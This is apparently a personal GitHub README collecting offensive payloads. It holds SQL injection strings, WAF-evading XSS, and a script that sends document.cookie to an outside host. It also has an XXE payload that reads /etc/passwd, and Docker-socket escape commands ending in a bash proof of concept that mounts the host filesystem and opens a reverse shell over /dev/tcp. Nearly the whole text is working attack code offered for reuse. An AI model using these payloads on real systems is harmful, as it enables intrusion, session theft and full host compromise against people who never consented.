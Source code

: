 ## Just a useless set of payload used by me. Saved here for remembrance.

### SQL Injection
#### Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))` (Timed Based Blind)
 - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")
 - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd` (Timed Based Blind)
 - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa` (Timed Based Blind)

### Cross Site Scripting
 - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
 - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
 - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
 - `('asd').anchor(prompt());` (just pops a prompt) 
 - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies

### XML External Entity
 - ```
<?xml version="1.0" ?><!DOCTYPE message [<!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
<!ENTITY % condition 'aaa)>
<!ENTITY &#x25; file SYSTEM "/etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
&x25;eval;
&x25;error;
<!ELEMENT aa (bb'>
%local_dtd;
]><data>
 <lastName>asd</lastName>
 <notes>atest</notes>
 <town>Lucca</town>
 <streetNumber>15</streetNumber>
 <postalCode>46794</postalCode>
 <taxCode>XTJBNH44R30D793Y</taxCode>
 <firstName>&error;</firstName>
 <streetName>asd</streetName>
 <countryIso>it</countryIso>
 <phone>3462617384</phone>
 <district>LU</district>
 <shippingAddress>false</shippingAddress>
 <billingAddress>false</billingAddress>
 <vatCode>02313821007</vatCode>
 <defaultAddress>false</defaultAddress>
</data>
  ``` (Used when i had no space left for internal entities into payload/dtd) 
 -  `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
